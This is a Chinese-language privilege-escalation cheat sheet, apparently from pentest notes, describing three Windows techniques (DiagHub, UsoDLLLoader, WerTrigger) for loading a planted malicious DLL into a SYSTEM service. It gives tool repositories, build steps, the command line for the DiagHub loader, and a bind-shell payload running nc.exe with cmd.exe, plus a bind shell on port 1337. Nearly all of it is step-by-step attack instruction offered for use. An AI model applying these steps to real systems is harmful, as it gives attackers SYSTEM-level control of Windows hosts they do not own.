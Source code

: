 #### DiagHub
  	注意：从 1903 及更高版本开始，DiagHub 不能再用于加载任意 DLL。
	Microsoft 诊断中心标准收集器服务 (DiagHub) 是一种收集跟踪信息并通过 DCOM 以编程方式公开的服务。该 DCOM 对象可用于将 DLL 加载到 SYSTEM 进程中，前提是该 DLL 存在于C:\Windows\System32目录中
	创建一个恶意DLL，例如：payload.dll 并将其移动到C:\Windows\System32
	https://gist.github.com/xct/3949f3f4f178b1f3427fae7686a2a9c0
	构建 https://github.com/xct/diaghub
	diaghub.exe c:\\ProgramData\\ payload.dll
	默认payload将运行C:\Windows\System32\spool\drivers\color\nc.exe -lvp 2000 -e cmd.exe
	替代工具：
	https://github.com/Accenture/AARO-Bugs/tree/master/CVE-2020-5825/TrigDiag
	https://github.com/decoder-it/diaghub_exploit
#### UsoDLLLoader
  	此技巧不再适用于最新版本的 Windows 10 Insider Preview
	如果我们在 Windows 或某些第三方软件中发现了一个特权文件写入漏洞，可以将我们自己的windowscoredeviceinfo.dll复制到C:\Windows\Sytem32\，然后由 USO 服务加载，以NT AUTHORITY\System执行任意代码
	构建https://github.com/itm4n/UsoDllLoader
	选择发布配置和 x64 架构。
	构建解决方案。
	DLL .\x64\Release\WindowsCoreDeviceInfo.dll
	加载程序 .\x64\Release\UsoDllLoader.exe。
	复制WindowsCoreDeviceInfo.dll到C:\Windows\System32\
	使用加载程序并等待 shell 或运行usoclient StartInteractiveScan并连接到端口 1337 上的绑定 shell。
#### WerTrigger
  	克隆https://github.com/sailay1996/WerTrigger
	复制phoneinfo.dll到C:\Windows\System32\
	将Report.wer文件和WerTrigger.exe放在同一目录中。
	然后，运行WerTrigger.exe。
	以NT AUTHORITY\SYSTEM身份获得shell